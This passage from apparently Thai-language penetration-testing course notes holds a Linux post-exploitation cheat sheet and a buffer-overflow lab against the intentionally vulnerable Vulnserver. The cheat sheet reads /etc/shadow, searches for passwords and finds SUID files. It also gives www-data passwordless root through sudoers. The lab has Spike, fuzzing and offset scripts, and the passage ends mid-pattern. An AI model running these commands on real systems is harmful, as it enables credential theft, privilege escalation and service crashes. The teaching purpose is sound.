      find /home –name .rhosts -print 2>/dev/null # Find rhost config files	
      ls -ahlR /root/     # See if you can access other user directories to find interesting files – Privileged command	
      cat ~/.bash_history # Show the current users’ command history	
      ls -la ~/._history # Show the current users’ various history files	
      ls -la ~/.ssh/ Check # for interesting ssh files in the current users’ directory	
      ls -la /usr/sbin/in.* # Check Configuration of inetd services	
      find /var/log -type f -exec ls -la {} ; 2>/dev/null # List files in specified directory (/var/log)	
      find /var/log -name *.log -type f -exec ls -la {} ; 2>/dev/null # List .log files in specified directory (/var/log)	
      find /etc/ -maxdepth 1 -name .conf -type f -exec ls -la {} ; 2>/dev/null # List .conf files in /etc (recursive 1 level)	
      ls -la /etc/.conf # As above	
      lsof -i -n  # List open files (output will depend on account privileges)	
      lsof -u root  # lists all open files and processes by user root

      ## Which configuration files can be written in /etc/? Able to reconfigure a service?	
      ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null     # Anyone	
      ls -aRl /etc/ | awk '$1 ~ /^..w/' 2>/dev/null        # Owner	
      ls -aRl /etc/ | awk '$1 ~ /^.....w/' 2>/dev/null    # Group	
      ls -aRl /etc/ | awk '$1 ~ /w.$/' 2>/dev/null          # Other
      find /etc/ -readable -type f 2>/dev/null            # Anyone	
      find /etc/ -readable -type f -maxdepth 1 2>/dev/null   # Anyone 

      ## Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm	
      find / -writable -type d 2>/dev/null        # world-writeable folders	
      find / -perm -222 -type d 2>/dev/null      # world-writeable folders	
      find / -perm -o+w -type d 2>/dev/null    # world-writeable folders	
      find / -perm -o+x -type d 2>/dev/null    # world-executable folders	        
      find / \( -perm -o+w -perm -o+x \) -type d 2>/dev/null   # world-writeable & executable folders	

      ## Any "problem" files? Word-writeable, "nobody" files	
      find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files	
      find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

      ## What sensitive files can be found? 	
      cat /etc/passwd	
      cat /etc/group	
      cat /etc/shadow	
      ls -alh /var/mail/

      ## Anything "interesting" in the home directorie(s)? If it's possible to access	
      ls -ahlR /root/	
      ls -ahlR /home/

      ## Any settings/files (hidden) on website? Any settings file with database information?	
      ls -alhR /var/www/	
      ls -alhR /srv/www/htdocs/ 	
      ls -alhR /usr/local/www/apache22/data/	
      ls -alhR /opt/lampp/htdocs/ 	
      ls -alhR /var/www/html/	

      ## Is there anything in the log file(s) (Could help with "Local File Includes"!)	
      cat /etc/httpd/logs/access_log	
      cat /etc/httpd/logs/access.log	
      cat /etc/httpd/logs/error_log	
      cat /etc/httpd/logs/error.log	
      cat /var/log/apache2/access_log	
      cat /var/log/apache2/access.log	
      cat /var/log/apache2/error_log	
      cat /var/log/apache2/error.log	
      cat /var/log/apache/access_log	
      cat /var/log/apache/access.log	
      cat /var/log/auth.log	
      cat /var/log/chttp.log	
      cat /var/log/cups/error_log	
      cat /var/log/dpkg.log	
      cat /var/log/faillog	
      cat /var/log/httpd/access_log	
      cat /var/log/httpd/access.log	
      cat /var/log/httpd/error_log	
      cat /var/log/httpd/error.log	
      cat /var/log/lastlog	
      cat /var/log/lighttpd/access.log	
      cat /var/log/lighttpd/error.log	
      cat /var/log/lighttpd/lighttpd.access.log	
      cat /var/log/lighttpd/lighttpd.error.log	
      cat /var/log/messages	
      cat /var/log/secure	
      cat /var/log/syslog	
      cat /var/log/wtmp	
      cat /var/log/xferlog	
      cat /var/log/yum.log	
      cat /var/run/utmp	
      cat /var/webmin/miniserv.log	
      cat /var/www/logs/access_log	
      cat /var/www/logs/access.log	
      ls -alh /var/lib/dhcp3/	
      ls -alh /var/log/postgresql/	
      ls -alh /var/log/proftpd/	
      ls -alh /var/log/samba/	
      # auth.log, boot, btmp, daemon.log, debug, dmesg, kern.log, mail.info, mail.log, mail.warn, messages, syslog, udev, wtmp	

      ## Search for specific strings inside a file	
      file ./somefile   ## file info	
      strings ./*.txt | grep password	
      find / -name “*.log” |xargs grep -i pass	
        
      grep -l -i pass /var/log/*.log 2>/dev/null	
      find / -maxdepth 10 -name *.conf -type f | grep -Hn pass; 2>/dev/null # searches for the string 'password' and output the line number	
      find / -maxdepth 10 -name *etc* -type f | grep -Hn pass; 2>/dev/null  # as above, but in *etc*	
      grep -l -i pass /var/log/*.log 2>/dev/null # Check log files for keywords (‘pass’ in this example) and show positive matches	
      find / -maxdepth 4 -name *.conf -type f -exec grep -Hn password {} ; 2>/dev/null # Find .conf files (recursive 4 levels) and output line number where the word password is located	
      grep -i user [filename]	
      grep -i pass [filename]	
      grep -C 5 "password" [filename]	
      find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla 	
      hexeditor ./file	
      objdump -D -M intel ./file	
      objdump -D -M x86-64 ./file >> dump64.file	
        
      cat /var/apache2/config.inc	
      cat /var/lib/mysql/mysql/user.MYD 	
      cat /root/anaconda-ks.cfg	
        
      find / -name "network-secret.txt"	
      locate "network-secret.txt"	

      ## What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID	
      find / -perm -u=s -type f 2>/dev/null     #Find FILES that have the sticky bit set. 	
      find / -perm -1000 -type d 2>/dev/null    # Find DIRECTORIES w/ Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here	
      find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the  group, not the user who started it.	
      find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the  owner, not the user who started it.	
      find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID	
      for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)	

      ## find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)	
      find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null 	
        
      ## Where can be written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm	
      find / -writable -type d 2>/dev/null        # world-writeable folders	
      find / -perm -222 -type d 2>/dev/null      # world-writeable folders	
      find / -perm -o+w -type d 2>/dev/null    # world-writeable folders	
      find / -perm -o+x -type d 2>/dev/null    # world-executable folders	
      find / \( -perm -o+w -perm -o+x \) -type d 2>/dev/null   # world-writeable & executable folders	
        
      ## Any "problem" files? Word-writeable, "nobody" files	
      find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files	
      find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files	

      ## Edit sudoers 
      # you should upgrde tty before edit sudoers 
      nano /etc/sudoers
      # User privilege specification 
      root    ALL=(ALL:ALL) ALL
      www-data ALL=(ALL:ALL) NOPASSWD:ALL        
      ```   

## Week 13@18 Feb 2023
## Lec
- Exploit Development (Buffer Overflows)
- Buffer Overflows 

- LAB Preparation 
  - Windows insta
    - [Vulnserver](https://thegreycorner.com/vulnserver.html) เป็นโปรแกรมภาษา C ที่เขียนมาจงใจให้มีช่องโหว่ เพื่อการศึกษา exploit development สำหรับผู้เริ่มต้นมือใหม่ โดยจะทำตัวเป็น network service อยู่บน TCP พอร์ต 9999 ให้เราใช้ TCP client ต่อเข้าไปใช้งานได้ โดยเราสามารถใช้โปรแกรม Netcat เชื่อต่อผ่านพอร์ต 9999 และทดสอบใช้คำสั่ง HELP ได้ดังต่อไปนี้ 

    

    - [Immunity Debugger](https://www.immunityinc.com/products/debugger/)  เป็นโปรแกรมที่สามารถทำการ diassembly โปรแกรมได้ กล่าวคือสามารถแปลงโปรแกรมในที่นี้เราจะใช้ vulnserver.exe ให้อยู่ในรูปแบบของ instruction code ภาษา Assembly ซึ่งจะอยู่บนหน้าต่างด้านบนซ้ายของโปรแกรม แล้วถ้ารันโปรแกรมอยู่มันก็จะแสดงค่าใน stack memory ในหน้าต่างขวาล่าง และค่าของ CPU Register ในหน้าต่างด้านขวาบน
  
  - Kali Linux
---

Network Diagram 



Anatomy of Memory 


- Kernel อยู่ด้านบนสุด (TOP) และ Text อยู่ด้านล่างสุด (BOTTOM)
- ทั้งนี้ เราสามารถขยายส่วนเก็บข้อมูล Stack ได้เป็นภาพด้านขวามือ โดยมี ESP หรือ Extended Stack Pointer อยู่ด้านบน (TOP)  กล่าวคือ stack ใน x86 ขยายจาก High Address ไป Low Address 
- ปัญหาการเกิด Buffer Overflow เกิดขึ้นภายใต้ Buffer Space ที่สามารถใส่ข้อมูลจาก TOP ไปยัง BOTTOM ไปชนกับ EBP (Extended Base Pointer) 


- Buffer Overflow Problem 
  


- เมื่อโปรแกรมทำงานจะมีการเก็บตัวแปรต่างๆ ไว้ภายใต้ Buffer Spaces และมักจะไม่เกินพื้นที่ภายใต้ Buffer Space ซึ่งก็จะทำให้โปรแกรมสามารถทำงานได้ตามปกติ แต่การทำให้เกิด Buffer Overflow เป็นการใส่ข้อมูลตัวแปรให้เกินพื้นที่ภายใต้ Buffer Spaces แล้วกินพื้นที่ไปยัง EBP และ EIP จนทำให้โปรแกรมไม่สามารถทำงานต่อได้
- ESP เป็น Pointer ที่จะชี้ไปที่ Top of Stack เสมอ
- Buffer Space ทำหน้าที่สำหรับจัดเก็บตัวแปรต่างๆ ของโปรแกรม
- EBP เป็นจุด Base Point ของ Stack กล่าวคือเป็นจุดที่อยู่ด้านล่างของ Stack หรือเป็น Bottom of Stack
- EIP (Extended Instruction Pointer)
  - โดยปกติโปรแกรมจะทำงานเป็นลำดับจากบนลงล่าง โดยมี EIP ชี้ไปยังคำสั่งถัดไป ที่จะถูกประมวลผล แต่เมื่อมีการ call function ใหม่เกิดขึ้น EIP จะกระโดดไปทำงานใน function ใหม่ และเมื่อทำงานใน function ใหม่จบแล้ว EIP ก็จะต้องกระโดดกลับมาทำงานที่ function เดิมต่อ ทั้งนี้ เพื่อให้ EIP ชี้ไปที่คำสั่งถัดไปหลังจากกลับมาจาก function ที่เรียก คำสั่งที่ใช้ในการ call function คือ "call" (เช่น "call printf") จะทำการ "push eip" ลงไปใน stack ก่อน แล้วค่อยกระโดดไปทำงานที่ function ใหม่ และที่จบ function ก็จะมีคำสั่ง "ret" ซึ่งจะเท่ากับ "pop eip" ทำให้โปรแกรมสามารถกลับไปทำงานตามปกติได้ ซึ่งเป็นจุดของ EIP นั้นเป็นจุดที่เราสามารถใช้เป็น Pointer สำหรับชี้ไปยัง Malicious Code หรือชุด Payload สำหรับ Reverse Shell เพื่อนำไปโจมตีต่อไปได้

ขั้นตอนการทำ Buffer Overflow สามารถดำเนินการได้ดังต่อไปนี้
1. Spiking – ทำการค้นหาช่องโหว่ของโปรแกรมที่คาดว่าจะมีช่องโหว่ของ Buffer Overflow 
2. Fuzzing – ส่ง Fuzz Characters ไปยังโปรแกรม จนกระทั่งโปรแกรม Break หรือไม่สามารถทำงานได้ 
3. Finding the Offset – หาจุด (Point) ที่สามารถ Break Program ได้ เพื่อหาค่า Offset
4. Overwriting the EIP – ใช้ค่า Offset ที่ได้ไป Overwrite EIP หรือ (Extended Instruction Pointer) ซึ่งเป็นจุดที่ใช้สำหรับ Return Address กลับไปยังโปรแกรม
5. Finding Bad Characters – เมื่อเราสามารถสามารถควบคุม EIP ได้ จะต้องค้นหา Bad Characters ที่เป็น
6. Finding the Right Module 
7. Generate Shellcode เพื่อทำ Reverse Shell
8. GAIN ROOT

--- 
Step by Step Buffer Overflow

- Preparing you env
  - Run Vulnserver as ADMIN (on Windows)
  
    
  
  - Run Immunity Debugger as ADMIN (on Windows)
    - Attatch vulnserver and run 
  
    

  - Try Netcat (on Kali linux)

    

---

## Spiking   
  - Make Spike script (nano or vim)
  - FIND Vulerable Command by Immunity goto **PAUSED state**

```bash
# Spike script 
# nano stats.spk
s_readline();
s_string("STATS ");
s_string_variable("0");
```

```bash
# TRY to RUN script for each command
generic_send_tcp 192.168.x.x 9999 stats.spk 0 0
```


ให้ดำเนินการทดสอบแต่ละ Command ที่อยู่ภายใต้ Vulnserver ซึ่งจะพบว่า Command **TRUN** เป็น Command ที่สามารถทำให้โปรแกรม Crash หรือหยุดทำงานไปได้ และหากตรวจสอบข้อมูลใน EBP จะพบว่ามีตัวอักษร A หรือ Hex Code 41 จำนวนมาก

<<<<<<<<<< RESULT >>>>>>>>>>

FOUND **TRUN** command is **VULNERABLE!!**
  
<<<<<<<<<< RESULT >>>>>>>>>>

----
## Fuzzing 
- การทำ Fuzzing จะเหมือนกับการทำ Spriking ซึ่งเป็นการส่งข้อความเข้าไปใน Command จำนวนมากๆ เพื่อหาช่องโหว่ของโปรแกรม โดย Spriking เป็นการค้นหา Command ที่มีช่องโหว่ แต่การทำ Fuzzing นั้นเป็นการเจาะจงยิงเฉพาะ Command ที่ค้นพบ ซึ่งในที่นี้คือคำสั่ง TRUN 
- Python Script สำหรับทำ Fuzzing คำสั่ง TRUN
  
```python
#!/usr/bin/python
#FUZZING Script 
# ก่อนรัน Script จะต้องเพิ่มสิทธิสำหรับรันด้วยคำสั่ง 
# chmod +x fuzz.py
# python2 ./fuzz.py 

import sys, socket
from time import sleep
# สร้างตัวแปร buffer ซึ่งมีค่าของตัวอักษร A จำนวน 100 ตัว
buffer = "A" * 100
# Enter IP Address of your HOST Here!!!!
HOST = '............'
PORT = 9999

while True:
  try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    # เชื่อมต่อไปยังเครื่อง Server Vulnserver 
    s.connect((HOST,PORT))

    # รัน TRUN Command และส่งตัวแปร buffer ไปยังโปรแกรรม 
    s.send(('TRUN /. :/' + buffer))
    # ปิด Connection
    s.close()
    # หน่วยเวลา 1 วินาที
    sleep(1)
    # ขยายตัวแปร buffer ให้มีตัว A มากขึ้นครั้งละ 100 ตัวอักษร 
    buffer = buffer + "A"*100
  except:
    # เป็นการตรวจสอบขนาดของ Buffer ที่ส่งไป 
    print "Fuzzing crashed at %s bytes" % str(len(buffer))
    sys.exit()

 ```
หลังจากรันโปรแกรมด้วย Python จะพบว่าโปรแกรม vulnserver ได้หยุดทำงานไปเรียบร้อยแล้วให้กด Ctrl + c เพื่อหยุดการทำงานของ Script และตรวจสอบขนาดของข้อมูลที่ยิงไปยังโปรแกรมเป้าหมาย ซึ่งผลลัพธ์จากการทดสอบจะทำให้เราสามารถทราบขนาดที่จะใช้ในการโจมตีคร่าวๆ  คือ 3,000 bytes 

 


 

<<<<<<<<<< RESULT >>>>>>>>>>

FOUND **3000 Bytes** สำหรับนำไปสร้าง pattern ด้วยเครื่องมือ metasploit-framework
  
<<<<<<<<<< RESULT >>>>>>>>>>

--- 
- Find the Offset 
  
เราสามารถใช้ Tools ชื่อ Pattern_create ของ metasploit-framework เพื่อสร้าง Pattern ของตัวอักษรตามขนาดที่เราต้องการได้ โดยในที่นี้เราได้ค่าของขนาดที่ 3,000 Bytes 
  
```bash
# "-l 3000" = 3000 Bytes from previous exercise you will see program stop aarround 3000 Bytes  
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
# Result of command 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9
##################
```
ปรับการตั้งค่าตัวแปรจาก Buffer ใน Python Script ให้เป็น Pattern ที่ได้มาจาก MSF ด้านบน 
```python
#!/usr/bin/python
#FUZZING Script 
import sys, socket
from time import sleep
offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp